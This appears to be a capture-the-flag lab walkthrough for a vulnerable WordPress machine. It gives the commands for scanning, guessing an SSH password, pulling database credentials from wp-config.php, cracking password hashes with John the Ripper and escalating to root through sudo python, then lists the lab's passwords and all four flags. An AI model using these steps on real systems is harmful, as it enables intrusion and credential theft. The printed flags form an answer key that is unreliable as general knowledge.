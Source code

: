 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Look at Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1. ` nmap -sV 192.168.1.110`

    ![1](/Images/2/1.png)

2. Enumerate: 

    `wpscan --url http://192.168.1.110/wordpress -eu`

    Likewise, the usernames are easy to guess because of the leads on the website.

    ![2](/Images/2/wpscan.PNG)

3. Search with the google developers tool the flag inside the code

4. Go to Services

5. Search: `flag`

    ![2](/Images/2/2.png)

6. In the terminal: `'ssh michael@192.168.1.110'`

7. Password: `michael` (Method to obtain the password was guessing. It can also be obtained with Hydra)

8. `pwd`

9. `cd ../../`

10. `find  -iname “*flag*” 2>/dev/null`

    ![3](/Images/2/3.png)

11. `cat /var/www/flag2.txt`

    ![4](/Images/2/4.png)

12. `cd /var/www/html/wordpress`

13. `Nano wp-config.php`

    ![5](/Images/2/5.png)

14. `mysql -u root -p`

15. Password: `R@v3nSecurity`

16. `show databases;`

    ![6](/Images/2/6.png)

17. `use wordpress;`

    ![7](/Images/2/7.png)

18. `show tables;`

    ![8](/Images/2/8.png)

19. `SELECT * FROM wp_users;`

    ![9](/Images/2/9.png)

20. Right click and copy the part with the hashes

21. In another terminal in the attacker machine create a file and paste the hashes

22. Give the appropriate structure for john the ripper use to crack the hashes

23. nano hashes.txt

    ![10](/Images/2/10.png)

24. `john hashes.txt –wordlist=’/usr/share/wordlist/rockyou.txt’`

25. `john –show hashes.txt`

    ![11](/Images/2/11.png)

26. `sudo steven`

27. Password: `pink84`

28. `Sudo -l`

    ![12](/Images/2/12.png)

29. `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

    ![13](/Images/2/13.png)

30. `find  -iname “*flag*” 2>/dev/null`

    ![14](/Images/2/14.png)

31. `cat /root/flag4.txt`

    ![15](/Images/2/15.png)

32. `grep -r flag3 *`

    ![16](/Images/2/16.png)

33. `nano /var/lib/mysql/ib_logfile0`

34. `Ctrl w`

35. `flag3`

    ![17](/Images/2/17.png)

# FLAGS

flag1{b9bbcb33e11b80be759c4e844862482d}

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}
